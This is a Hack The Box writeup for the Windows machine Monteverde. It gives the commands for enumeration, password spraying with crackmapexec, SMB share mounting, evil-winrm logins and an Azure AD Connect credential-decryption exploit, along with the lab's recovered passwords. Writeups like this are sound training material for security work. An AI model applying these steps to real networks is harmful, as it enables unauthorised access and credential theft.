 ```yaml
---
title: "[Writeup] Hack The Box: Monteverde"
date: 2020-05-05T23:28:11+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Monteverde is a Medium difficulty Windows box. You don't need many fancy techniques to clear this box, as the process is quite clear and straightforward. The important point for this box is enumeration, as the saying goes, *"Enumeration is the key"*.

![](/images/htb_monteverde/infocard.png)

<!--more-->

**OS:** Windows  
**Difficulty:** Medium  
**Points:** 30  
**Release:** 11 Jan 2020  
**IP:** 10.10.10.172  
**Box Creator:** egre55  
**Date Cleared:** 23 Apr 2020

## Information Gathering

Starting with `nmap` as usual.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-05 13:30:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/5%Time=5EB1759D%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

I used `enum4linux` and found a list of users on the target.

![](/images/htb_monteverde/enum4linux.png)

## Gaining Access

I put the usernames found into a text file then performed a simple password spraying with `crackmapexec`, and found that the credential `SABatchJobs:SABatchJobs` is valid.

`crackmapexec smb 10.10.10.172 -u ./userlist  -p ./userlist`

![](/images/htb_monteverde/SABatchJobs.png)

The user `SABatchJobs` could be used to list the SMB shares.

`smbclient -L \\\\10.10.10.172 -U 'MEGABANK\SABatchJobs'`

![](/images/htb_monteverde/shares.png)

The `users$` share is accessible with `SABatchJobs`, so I mounted the share to my file system for the ease of searching.

`mkdir users$`
`mount -t cifs //10.10.10.172/users$ ./mount -o username=SABatchJobs,password=SABatchJobs,domain=MEGABANK`

![](/images/htb_monteverde/share_users.png)

I found a file named `mhope/azure.xml` with password in users$ share

![](/images/htb_monteverde/share_users_mhope.png)

Using `crackmapexec` to test the new password found with the user list we got, I found that `mhope:4n0therD4y@n0th3r$` is valid.

`crackmapexec smb 10.10.10.172 -u ./userlist  -p '4n0therD4y@n0th3r$'`

![](/images/htb_monteverde/crackmapexec_mhope.png)

From the `nmap` result in the beginning, we can see that WinRM port `5985` is open, so I used [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)to connect to the target and got the user shell.

`evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

![](/images/htb_monteverde/shell_mhope.png)

## Privilege Escalation

Using `whoami /all`, I found an interesting group `Azure Admins`.

![](/images/htb_monteverde/whoami.png)

Looking in the `Program Files` directory, I found that Microsoft Azure AD Connect is installed on the machine.

![](/images/htb_monteverde/programfiles.png)

With a brief Google search, I found that AD Connect has a privilege escalation vulnerability (<https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/>).

![](/images/htb_monteverde/adconnectvuln.png)

I uploaded the precompiled exploit binary from <https://github.com/VbScrub/AdSyncDecrypt/releases> to the target machine using `wget` and `SimpleHTTPServer`.

![](/images/htb_monteverde/upload.png)

I went to Microsoft Azure AD Sync directory and run the exploit to get administrator credentials.

`cd "C:\Program Files\Microsoft Azure AD Sync\Bin"`
`C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\AdDecrypt.exe -FullSQL`

![](/images/htb_monteverde/azureadexploit.png)

With the credentials found, I could log in as the Administrator.

`evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'`

![](/images/htb_monteverde/admin_shell.png)